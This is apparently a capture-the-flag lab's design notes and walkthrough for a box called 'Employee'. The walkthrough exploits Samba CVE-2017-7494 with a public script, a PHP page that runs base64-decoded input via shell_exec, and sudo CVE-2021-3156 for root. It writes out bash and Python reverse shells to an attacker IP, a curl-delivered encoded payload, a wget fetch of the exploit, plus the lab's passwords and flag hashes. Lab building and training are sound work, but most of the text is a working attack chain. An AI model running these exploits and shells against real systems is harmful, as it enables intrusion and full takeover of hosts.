




# Employee-Walkthrough

## Introduction

This box was made to show the importance of enumeration, critical thinking and the usual mess and error while dealing with public exploit scripts in real life. This is done via mimicking a company hiring for employees, and some manual site development that leads to code execution. Exploits used are CVE-2017-7494 and a little command injection for foothold, while CVE-2021-3156 for privilege escalation.

### Access

Passwords:

| User  | Password                            |
| ----- | ----------------------------------- |
| root | youshallnotcrackthis |
| cybercraze | youshallnotcrackthis |
| guest (samba user)  | guest |

### Hash
user.txt: c32ba831818880876035e98d868b9b70

root.txt: 4e2ada627f08f9dee6f3acf12adc2511

### Key Processes

Services: SSH, HTTP, SMB

HTTP:

domain: designer.htb

subdomain: underdevelopment.designer.htb

SMB version: 4.5.9 --> vulnerable to CVE-2017-7494

### Docker

        docker run -d -p 137-139:137-139 -p 445:445 -p 6699:6699 -v /home/cybercraze/candidates:/candidates -v /root/backups:/var/www --restart=always --name=samba vulnerables/cve-2017-7494

*hosting vulnerable samba on docker to prevent direct access as root

*/candidates is the path to samba share "candidates"

*backup html files stored in /var/www

### Notes

1. Emails ending with @designer.htb scatter around the hosted website to indicate the domain name
2. All inputs in http://designer.htb are sanitised and there would not be any injection attack such as ssti or xss
3. credentials for samba share "guest:guest" is provided on the website for candidates to fill and submit the application form
4. the samba share "candidates" contains a job-application-form.docx and a submission directory to submit the application form
5. the samba share is only accessible via the creds "guest:guest"
6. all the exploit scripts used and fixes are included in this zip file:

https://drive.google.com/file/d/1b0Pbc8xdLGaVjGe8nNJqP2MityPsKfJD/view?usp=sharing

for any errors resulted for using the exploits, refer to the Writeup section to fix

#### *players are expected to search and fix the errors themselves*
7. Not all errors will be encountered
8. change the reverseshell ip and port below as prefer

## Writeup

1. Nmap

        $ nmap -sCV 10.10.154.21                                                                         
        Starting Nmap 7.92 ( https://nmap.org ) at 2022-03-31 17:16 +08                                                                    
        Nmap scan report for designer.htb (10.10.154.21)                                                             
        Host is up (0.21s latency).                                                                  
        Not shown: 996 closed tcp ports (conn-refused)                                                                     
        PORT    STATE SERVICE     VERSION                                                                     
        22/tcp  open  ssh         OpenSSH 8.2p1 Ubuntu 4ubuntu0.4 (Ubuntu Linux; protocol 2.0)                               
        | ssh-hostkey:                                            
        |   3072 e7:67:ab:72:53:be:d6:f3:7b:3d:c0:48:7f:31:34:fa (RSA)                                                       
        |   256 21:93:3c:26:89:14:9f:4a:7c:8c:bf:a1:b5:f6:5d:b3 (ECDSA)                                                      
        |_  256 d1:ed:71:b7:69:ef:64:12:e4:5a:99:cb:41:30:ae:f0 (ED25519)                                                    
        80/tcp  open  http        Apache httpd 2.4.41 ((Ubuntu))                                                             
        |_http-title: Designer - Creative HTML5 Template                                                                     
        |_http-server-header: Apache/2.4.41 (Ubuntu)              
        139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)                                                
        445/tcp open  netbios-ssn Samba smbd 4.5.9 (workgroup: WORKGROUP)                                                    
        Service Info: Host: HACKEDSAMBA; OS: Linux; CPE: cpe:/o:linux:linux_kernel                                           
        Host script results:                                      
        | smb-security-mode:                                      
        |   account_used: <blank>                                 
        |   authentication_level: user                            
        |   challenge_response: supported                         
        |_  message_signing: disabled (dangerous, but default)                                                               
        | smb2-security-mode:                                     
        |   3.1.1:                                                
        |_    Message signing enabled but not required            
        | smb2-time:                                              
        |   date: 2022-03-31T09:17:30                             
        |_  start_date: N/A                                       
        | smb-os-discovery:                                       
        |   OS: Windows 6.1 (Samba 4.5.9)                         
        |   Computer name: b6651f1755a8                           
        |   NetBIOS computer name: HACKEDSAMBA\x00                
        |   Domain name: \x00                                     
        |   FQDN: b6651f1755a8                                    
        |_  System time: 2022-03-31T09:17:28+00:00                
        |_clock-skew: mean: -3s, deviation: 0s, median: -4s                                                                  

        Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .                       
        Nmap done: 1 IP address (1 host up) scanned in 50.06 seconds
2. index.html:

3. enumerate the website. found emails ending with @designer.htb. (info@designer.htb, contact@designer.htb, etc) edit /etc/hosts to set designer.htb as the domain name

4. button "contact us" redirects us to contact.html. reveal creds "guest:guest" for samba share to those interested in job application

5. Checking Samba Share "candidates" with creds "guest:guest"

        $ smbclient -L designer.htb -U guest
        Enter WORKGROUP\guest's password: guest                                                               
        Sharename       Type      Comment                                                        
        ---------       ----      -------                                                        
        candidates      Disk      SambaShare for Job Application                                 
        IPC$            IPC       IPC Service (Designer Company)              
        
        
        $ smbclient \\\\designer.htb\\candidates -U guest
        Enter WORKGROUP\guest's password: guest
        Try "help" to get a list of possible commands.
        smb: \> ls
        .                                   D        0  Thu Mar 31 11:00:04 2022
        ..                                  D        0  Wed Mar 30 17:15:27 2022
        job-application-form.docx           A    19975  Sat Mar 26 00:44:53 2022
        submission                          D        0  Fri Mar 25 21:48:03 2022

                9336140 blocks of size 1024. 1836012 blocks available
                
*content of job-application-form.docx is attached in this repository

6. Sambacry exploit

*smbd 4.5.9 is vulnerable to the sambacry exploit. user "guest" is writable in the samba share "candidates" so it is exploitable

*refer to: https://github.com/opsxcq/exploit-CVE-2017-7494

        $ git clone https://github.com/opsxcq/exploit-CVE-2017-7494.git
        $ cd exploit-CVE-2017-7494/
        $ sudo python2.7 -m pip install -r requirements.txt
        DEPRECATION: Python 2.7 reached the end of its life on January 1st, 2020. Please upgrade your Python as Python 2.7 is no longer maintained. pip 21.0 will drop support for Python 2.7 in January 2021. More details about Python 2 support in pip can be found at https://pip.pypa.io/en/latest/development/release-process/#python-2-support pip 21.0 will remove support for this functionality.
        Collecting git+git://github.com/opsxcq/impacket.git (from -r requirements.txt (line 2))
          Cloning git://github.com/opsxcq/impacket.git to /tmp/pip-req-build-5GQWeh
          Running command git clone -q git://github.com/opsxcq/impacket.git /tmp/pip-req-build-5GQWeh
          fatal: remote error:
            The unauthenticated git protocol on port 9418 is no longer supported.
          Please see https://github.blog/2021-09-01-improving-git-protocol-security-github/ for more information.
        ERROR: Command errored out with exit status 128: git clone -q git://github.com/opsxcq/impacket.git /tmp/pip-req-build-5GQWeh Check the logs for full command output.
        
#### error1: directly git cloning impacket module using pip fail

fix1: manually install impacket from http://github.com/opsxcq/impacket.git

        $ git clone http://github.com/opsxcq/impacket.git
        $ cd impacket/
        $ sudo python2.7 setup.py install
        
change the variables while running the exploit such as the share name, username, pw and file path as below:

        $ cd exploit-CVE-2017-7494/
        $ sudo python2.7 exploit.py -t designer.htb -e libbindshell-samba.so -s candidates -r /candidates/libbindshell-samba.so -u guest -p guest -P 6699

#### error2: Crypto module not found

fix2: sudo python2.7 -m pip install pycrypto

#### error3: pycrypto fail to install

fix3: sudo python2.7 -m uninstall pycrypto && sudo python2.7 -m install pycryptodome

#### error4: pyasn1 not found

fix4: sudo python2.7 -m pip install pyasn1

#### error5: script run without error but the shell couldn't return any output

fix5: kill all the process involving the exploit

#### error6: script returns IO error

fix6: reinstall impacket following fix 1, doing fix 5, delete libbindshell-samba.so in samba share "candidates" as shown below:

        $ smbclient \\\\designer.htb\\candidates -U guest
        Enter WORKGROUP\guest's password: 
        Try "help" to get a list of possible commands.
        smb: \> ls
          .                                   D        0  Thu Mar 31 17:41:50 2022
          ..                                  D        0  Wed Mar 30 17:15:27 2022
          job-application-form.docx           A    19975  Sat Mar 26 00:44:53 2022
          submission                          D        0  Fri Mar 25 21:48:03 2022
          libbindshell-samba.so               A     8432  Thu Mar 31 17:45:07 2022

                        9336140 blocks of size 1024. 1831568 blocks available
        smb: \> del libbindshell-samba.so

expected fixed result(RCE):

        $ sudo python2.7 exploit.py -t designer.htb -e libbindshell-samba.so -s candidates -r /candidates/libbindshell-samba.so -u guest -p guest -P 6699
        [*] Starting the exploit
        [+] Authentication ok, we are in !
        [+] Preparing the exploit
        [+] Exploit trigger running in background, checking our shell
        [+] Connecting to designer.htb at 6699
        [+] Veryfying your shell...
        >>Linux b6651f1755a8 5.4.0-100-generic #113-Ubuntu SMP Thu Feb 3 18:43:29 UTC 2022 x86_64 GNU/Linux
        whoami
        >>nobody
        
running a bash reverse shell to obtain a shell as the user "nobody" in a docker container:

        bash -c 'bash -i >& /dev/tcp/10.9.1.137/666 0>&1'

        $ sudo nc -lvnp 666
        listening on [any] 666 ...
        connect to [10.9.1.137] from (UNKNOWN) [10.10.154.21] 36152
        bash: cannot set terminal process group (1): Inappropriate ioctl for device
        bash: no job control in this shell
        nobody@b6651f1755a8:/tmp$
        
7. Discover backup website source code in docker container's /var/www. Reveal a subdomain underdevelopment.designer.htb

        nobody@b6651f1755a8:/tmp$ cd /var/www
        nobody@b6651f1755a8:/var/www$ ls
        html  subdomains
        nobody@b6651f1755a8:/var/www$ ls subdomains
        underdevelopment

8. add domain name underdevelopment.designer.htb into /etc/hosts

9. discover manually html coded buttons in underdevelopment.designer.htb/services.html

10. pressing the buttons redirects to:

http://underdevelopment.designer.htb/development.php?display={some base64 hash}

*reading the html code of services.html shows that it posts some base64 hash as the parameter "display" to development.php

        <--snip-->
            <form action="development.php" method="get">                                                                                                                                                                                           
                <button name="display" type="submit" value="aWZjb25maWcK">IP</button>                                                                                                                                                              
                <button name="display" type="submit" value="Y2F0IC9ldGMvaG9zdG5hbWUK">HOSTNAME</button>                                                                                                                                            
                <button name="display" type="submit" value="ZWNobyBkZXNpZ25lci5odGIK">DOMAIN</button>                                                                                                                                              
                <button name="display" type="submit" value="d2hvYW1pCg==">WEBADMIN</button>                                                                         
                <button name="display" type="submit" value="ZWNobyBDeWJlckNyYXplCg==">CREATOR</button>                                                                   
            </form>
        <--snip-->

*development.php shows that it decodes the "display" parameter as base64 hash and run as bash

        nobody@b6651f1755a8:/var/www/subdomains/underdevelopment$ cat development.php
        <?php 
        $output = shell_exec(base64_decode($_GET["display"]));
        echo "<pre>$output</pre>";
        ?>

11. Foothold

        $ echo "python3 -c \"import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('10.9.1.137',666));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(['/bin/bash','-i']);\"" | base64 -w 0
        cHl0aG9uMyAtYyAiaW1wb3J0IHNvY2tldCxzdWJwcm9jZXNzLG9zO3M9c29ja2V0LnNvY2tldChzb2NrZXQuQUZfSU5FVCxzb2NrZXQuU09DS19TVFJFQU0pO3MuY29ubmVjdCgoJzEwLjkuMS4xMzcnLDY2NikpO29zLmR1cDIocy5maWxlbm8oKSwwKTsgb3MuZHVwMihzLmZpbGVubygpLDEpOyBvcy5kdXAyKHMuZmlsZW5vKCksMik7cD1zdWJwcm9jZXNzLmNhbGwoWycvYmluL2Jhc2gnLCctaSddKTsiCg==

        $ curl http://underdevelopment.designer.htb/development.php?display=cHl0aG9uMyAtYyAiaW1wb3J0IHNvY2tldCxzdWJwcm9jZXNzLG9zO3M9c29ja2V0LnNvY2tldChzb2NrZXQuQUZfSU5FVCxzb2NrZXQuU09DS19TVFJFQU0pO3MuY29ubmVjdCgoJzEwLjkuMS4xMzcnLDY2NikpO29zLmR1cDIocy5maWxlbm8oKSwwKTsgb3MuZHVwMihzLmZpbGVubygpLDEpOyBvcy5kdXAyKHMuZmlsZW5vKCksMik7cD1zdWJwcm9jZXNzLmNhbGwoWycvYmluL2Jhc2gnLCctaSddKTsiCg==

        $ sudo nc -lvnp 666
        listening on [any] 666 ...
        connect to [10.9.1.137] from (UNKNOWN) [10.10.236.231] 44334
        bash: cannot set terminal process group (752): Inappropriate ioctl for device
        bash: no job control in this shell
        To run a command as administrator (user "root"), use "sudo <command>".
        See "man sudo_root" for details.

        cybercraze@designer:/var/www/subdomains/underdevelopment$ cat ~/user.txt
        c32ba831818880876035e98d868b9b70
        
12. Privilege Escalation

        cybercraze@designer:/var/www/subdomains/underdevelopment$ sudo --version
        Sudo version 1.8.31
        Sudoers policy plugin version 1.8.31
        Sudoers file grammar version 46
        Sudoers I/O plugin version 1.8.31

*refer to https://github.com/mohinparamasivam/Sudo-1.8.31-Root-Exploit  <-- CVE-2021-3156

*check if sudo is vulnerable

        cybercraze@designer:/var/www/subdomains/underdevelopment$ sudoedit -s Y
        sudoedit: a terminal is required to read the password; either use the -S option to read from standard input or configure an askpass helper

this cve exploits the password prompt for buffer overflow. hence we need to escalate the shell to allow the terminal to read for password

        cybercraze@designer:/var/www/subdomains/underdevelopment$ python3 -c "import pty;pty.spawn('/bin/bash')"

        cybercraze@designer:/var/www/subdomains/underdevelopment$ sudoedit -s Y
        [sudo] password for cybercraze: --> THIS SHOWS THAT SUDOEDIT IS VULNERABLE

set up the exploit and zip the whole directory

        $ git clone https://github.com/mohinparamasivam/Sudo-1.8.31-Root-Exploit
        $ cd Sudo-1.8.31-Root-Exploit/
        $ make
        mkdir libnss_x
        cc -O3 -shared -nostdlib -o libnss_x/x.so.2 shellcode.c
        cc -O3 -o exploit exploit.c
        $ cd ../
        $ zip -r sudo-1.8.31.zip Sudo-1.8.31-Root-Exploit/

transfer the exploit zip file to the target machine

        $ ls
        exploit-CVE-2017-7494  impacket  link  Sudo-1.8.31-Root-Exploit  sudo-1.8.31.zip
        $ python3 -m http.server
        
        cybercraze@designer:/var/www/subdomains/underdevelopment$ cd /tmp                                                                       
        cybercraze@designer:/tmp$ wget 10.9.1.137:8000/sudo-1.8.31.zip                                                                                          
        cybercraze@designer:/tmp$ unzip sudo-1.8.31.zip
        cybercraze@designer:/tmp$ cd Sudo-1.8.31-Root-Exploit
        cybercraze@designer:/tmp/Sudo-1.8.31-Root-Exploit$ ./exploit
        # whoami
        root
        # cat /root/root.txt
        4e2ada627f08f9dee6f3acf12adc2511
